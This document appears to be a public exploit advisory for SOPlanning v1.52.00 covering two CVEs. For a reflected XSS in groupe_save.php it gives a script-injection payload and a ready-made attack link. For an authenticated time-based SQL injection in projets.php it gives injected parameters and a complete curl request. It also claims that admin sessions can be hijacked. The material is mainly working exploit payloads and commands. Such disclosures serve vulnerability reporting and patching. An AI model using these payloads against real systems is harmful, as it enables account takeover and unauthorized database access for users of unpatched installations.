 Exploit Title: SOPlanning v1.52.00 'groupe_save.php' XSS (Reflected XSS)

Application: SOPlanning

Version: 1.52.00

Date: 4/22/24

Exploit Author: Joseph McPeters (Liquidsky)

Vendor Homepage: https://www.soplanning.org/en/

Software Link: https://sourceforge.net/projects/soplanning/

Tested on: Linux

CVE: CVE-2024-33724

Exploit: https://github.com/fuzzlove/soplanning-1.52-exploits/blob/main/soplanning-XSS-README.txt

Description: SOPlanning v1.52.00 is vulnerable to XSS via the 'groupe_id' parameters a remote unautheticated attacker can hijack the admin account or other users. The remote attacker can hijack a users session or credentials and perform a takeover of the entire platform.

Example Payload:
"><script>alert('LiQUiDSKY')</script><!--

Reflected XSS Link: /soplanning/www/process/groupe_save.php?saved=1&groupe_id="><script>alert('LiQUiDSKY')</script><!--&nom=Project+New

Analysis: The landing page takes into consideration the user input parameter then redirects to a page where the XSS is shown the payload included in the exploit escapes the variable where it is held and comments out the rest to perform a valid reflected XSS attack against any authenticated user including the admin.


----------------------------------------------------------------------------------------------------------------------


Exploit Title: SOPlanning v1.52.00 'projets.php' SQLi

Application: SOPlanning

Version: 1.52.00

Date: 4/22/24

Exploit Author: Joseph McPeters (Liquidsky aka fuzzlove)

Vendor Homepage: https://www.soplanning.org/en/

Software Link: https://sourceforge.net/projects/soplanning/

Tested on: Linux

CVE: CVE-2024-33722

Exploit: https://github.com/fuzzlove/soplanning-1.52-exploits/blob/main/soplanning-sqli-README.txt

Description: SOPlanning v1.52.00 is vulnerable to Authenticated SQL Injection via the 'projects.php' page.

Instructions: Authenticate to the host, the credentials can be obtained using a CSRF exploit (more info included). Once valid credentials are obtained use either a GET/POST request to send the valid parameters that equal to valid SQLi.

Vulnerable request parameters for request to "/www/projets.php":

filtreGroupeProjet=1&statut[]=todo'+AND+(SELECT+8073+FROM+(SELECT(SLEEP(10)))PuxA)+AND+'Liquidsky'='Liquidsky&rechercheProjet=test

The above parameters can be sent as either a valid GET/POST request to trigger the SQLi.
Example Curl Request To Re-Test SQLi:

curl -i -s -k -X $'POST' \
    -H $'Host: 127.0.0.1' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate, br' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 130' -H $'Origin: http://127.0.0.1' -H $'Connection: close' -H $'Referer: http://127.0.0.1/soplanning/www/projets.php' -H $'Upgrade-Insecure-Requests: 1' -H $'Sec-Fetch-Dest: document' -H $'Sec-Fetch-Mode: navigate' -H $'Sec-Fetch-Site: same-origin' -H $'Sec-Fetch-User: ?1' \
    -b $'dateDebut=23/04/2024; dateFin=23/06/2024; xposMoisWin=0; xposJoursWin=0; yposMoisWin=0; yposJoursWin=0; yposProjets=33; PHPSESSID=ovpbclvbc87uh7anfbq2luf9bi; soplanningplanning_=hhrtf0rgs562vm8rhn5i641481; baseLigne=users; baseColonne=jours; afficherTableauRecap=1; masquerLigneVide=0; statut_projet=%5B%22abort%22%2C%22archive%22%2C%22done%22%2C%22progress%22%2C%22todo%22%5D' \
    --data-binary $'filtreGroupeProjet=1&statut[]=todo\'+AND+(SELECT+8073+FROM+(SELECT(SLEEP(10)))PuxA)+AND+\'Liquidsky\'=\'Liquidsky&rechercheProjet=test' \
    $'http://127.0.0.1/soplanning/www/projets.php'


  Note: Cookies need to be authenticated and request needs to be valid for valid SQLi. This curl request can be used with a proxy to reconstruct a valid request.
